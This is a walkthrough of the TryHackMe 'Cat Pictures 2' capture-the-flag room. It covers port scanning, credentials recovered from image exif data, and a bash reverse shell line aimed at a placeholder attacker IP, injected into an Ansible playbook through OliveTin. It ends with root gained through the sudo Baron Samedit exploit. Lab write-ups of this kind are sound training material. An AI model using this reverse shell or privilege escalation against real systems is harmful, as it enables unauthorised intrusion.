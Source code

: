 
Cat Pictures 2 Writeup

This is a walkthrough of the Cat Pictures 2 CTF from TryHackMe. The room can be accessed here.

Recon
I started by running an Nmap scan to identify open ports on the target machine:

nmap -sV -sC -p- <#TARGETIP> -o nmap
The scan revealed the following open ports:

22 - OpenSSH 7.6p1
80 - Nginx 1.4.6 (Lychee version 3.1.1 photo album with cat pictures)
222 - OpenSSH 9.0 (Unusual port)
1337 - OliveTin (Web interface to run predefined shell commands)
3000 - Gitea (Lightweight DevOps platform)
8080 - Nginx default webpage (Possibly with subdirectories)

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/d2051fdc-db05-4bf4-9f99-d06dd6d542f4)

Web Pages
I began exploring the web applications hosted on different ports:

Port 80: Found a Lychee photo album with cat pictures. App Screenshot

Port 1337: Discovered OliveTin, a web interface to execute scripts and run Ansible Playbooks.



Port 3000: Accessed Gitea, a platform that might be hosting scripts and runbooks.


Port 8080: Default Nginx webpage, further inspection may reveal subdirectories.



After running gobuster and checking for vulnerabilities, nothing significant was found. So, I focused on the cat pictures hosted on port 80.

Cat Pictures Analysis
I downloaded all the cat pictures and checked them for exif data using exiftool. One picture revealed interesting information of a text file on a subdomain of one of the web applications:



Visiting the URL led me to a text file with the following information:



I managed to gain access to the website with the credentials from the text file and explored the user's repository, where I found flag1.txt (1/3 flags).



Ansible Playbook
Next, I inspected the playbook.yaml file and noticed it contains a shell command: shell: echo hi.



Knowing that OliveTin on port 1337 allows running Ansible Playbooks, I replaced the command with simple bash reverse shell payload from RevShells.com.

bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
Setting up a NetCat listener and clicking "Run Ansible Playbook" triggered the payload, which gave me a shell on the box. Exploring the user directory file gave me another text file named flag2.txt (2/3 flags).



Privilege Escalation
With a reverse shell on the target machine, I looked around for interesting files and uploaded linpeas.sh to find vulnerabilities. One stood out: [CVE-2021-3156] sudo Baron Samedit.



To exploit this, I downloaded the exploit, uploaded it to the target machine, compiled it with make, and executed the ./sudo-hax-me-a-sandwich outfile to gain root access.


From here, I moved to the /root file directory and found the flag3.txt (3/3 flags).

Thanks for checking out my writeup! Feel free to reach out with any questions or comments.
